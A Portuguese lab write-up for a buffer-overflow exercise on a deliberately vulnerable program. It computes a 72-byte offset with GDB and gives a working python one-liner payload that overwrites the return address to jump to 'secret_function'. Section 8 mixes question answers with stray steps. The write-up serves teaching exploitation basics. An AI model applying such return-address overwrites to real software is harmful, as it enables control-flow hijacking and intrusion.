


# Exercício 3: Desencadear o Overflow (Buffer Overflow Exploit)

**Objetivo:** Construir um payload que sobrescreva o return address para executar `secret_function` via buffer overflow.

---

## 1. Informação Coletada da Execução

Executando o programa com entrada benigna:
```bash
./vuln "Hello"
```

**Output obtido:**
```
[*] process_input return address is on the stack.
[*] Buffer is at:         0x7ffe5a174610
[*] secret_function is at: 0x4011b6
[*] You entered: Hello
[*] Normal programme termination.
```



---

## 2. Análise de Assembly - Cálculo do Offset

Usando GDB para desassemblar `process_input`:

```bash
gdb -q -batch -ex "disas process_input" ./vuln
```

**Outputs-chave:**
```
0x00000000004011ee <+8>:     sub    $0x50,%rsp          # Aloca 0x50 (80) bytes na stack
0x00000000004011f6 <+16>:    lea    -0x40(%rbp),%rax    # Buffer em rbp - 0x40 (64 bytes)
0x00000000004011fd <+87>:    call   0x401080 <strcpy@plt>
```

**Cálculo do offset:**
- Buffer começa em: `rbp - 0x40` (64 bytes)
- Saved RBP ocupa: 8 bytes (em `[rbp]`)
- Saved return address em: `[rbp + 8]`
- **Offset total = 0x40 + 0x08 = 0x48 = 72 bytes**

---

## 3. Endereços Utilizados

| Parâmetro | Valor |
|-----------|-------|
| **secret_function address** | `0x4011b6` |
| **Offset (buffer → return address)** | **72 bytes** |
| **Little-endian encoding** | `\xb6\x11\x40\x00\x00\x00\x00\x00` |

---

## 4. Construção do Payload

O endereço `0x4011b6` em little-endian é representado como:
```
0x4011b6 → \xb6\x11\x40\x00\x00\x00\x00\x00 (8 bytes para 64-bit)
```

**Estrutura do payload:**
```
[72 bytes de padding 'A'] + [8 bytes com endereço em little-endian]
= 80 bytes totais
```

---

## 5. Comando do Exploit

O comando completo para desencadear o overflow:

```bash
./vuln $(python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\xb6\x11\x40\x00\x00\x00\x00\x00')")
```

**Explicação:**
- `b'A'*72`: Preenche o buffer e o saved RBP com 'A' (0x41)
- `b'\xb6\x11\x40\x00\x00\x00\x00\x00'`: Sobrescreve o return address com 0x4011b6
- `sys.stdout.buffer.write()`: Escreve bytes binários (necessário para null bytes)

---

## 6. Resultado do Exploit

Executando o comando acima:

```bash
./vuln $(python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\xb6\x11\x40\x00\x00\x00\x00\x00')")
```

**Output obtido:**
```
[*] process_input return address is on the stack.
[*] Buffer is at:         0x7fffe5ab6ff0
[*] secret_function is at: 0x4011b6
[*] You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAA[bytes-binários]

[!] ACCESS GRANTED: you reached the secret function!
[!] In a real exploit, this could be arbitrary code execution.
```



**Exploit bem-sucedido!**

---

## 7. Mecanismo do Exploit

1. **Preparação do payload:** 72 bytes de 'A' + endereço de secret_function em little-endian
2. **Buffer overflow:** `strcpy(buffer, input)` não valida tamanho, escrevendo além dos 64 bytes
3. **Corrupção da stack:** Os bytes adicionais sobrescrevem:
   - Saved RBP (8 bytes)
   - **Saved return address (8 bytes)** ← Sobrescrito com 0x4011b6
4. **Control flow hijacking:** Quando `process_input()` executa `ret`:
   - Carrega o valor falsificado (0x4011b6) em RIP
   - CPU salta para `secret_function` em vez de voltar a `main`
5. **Execução não-autorizada:** `secret_function()` é executada, imprimindo "ACCESS GRANTED"

---

## 8. Respostas às Questões

**Questão 2:** Endereço de `secret_function` → **0x4011b6** (fixo, compilado com `-no-pie`)

**Questão 3:** Offset de buffer até return address guardado → **72 bytes** (0x48 em hex)

**Questão 4:** Confirmação do endereço fixo → Sim, aparece consistentemente em múltiplas execuções devido ao `-no-pie`
5. **Execução da função-alvo:** O processador salta para 0x4011b6 (secret_function)
6. **Sucesso:** secret_function() executa e imprime "ACCESS GRANTED"

---

## Por Quê Este Exploit Funciona

- **-fno-stack-protector:** Sem canary, não há verificação de integridade da stack
- **-no-pie:** Endereço de secret_function é fixo e conhecido
- **strcpy() sem validação:** Copia quantos bytes forem necessários sem limites
- **Endereço previsível:** O programa imprime o próprio endereço de secret_function

---

## Conclusão

Este exercício demonstra como uma vulnerabilidade de buffer overflow, combinada com a ausência de mitigações de segurança, permite que um atacante ganhe controle do fluxo de execução do programa e execute código arbitrário (neste caso, uma função "secreta").
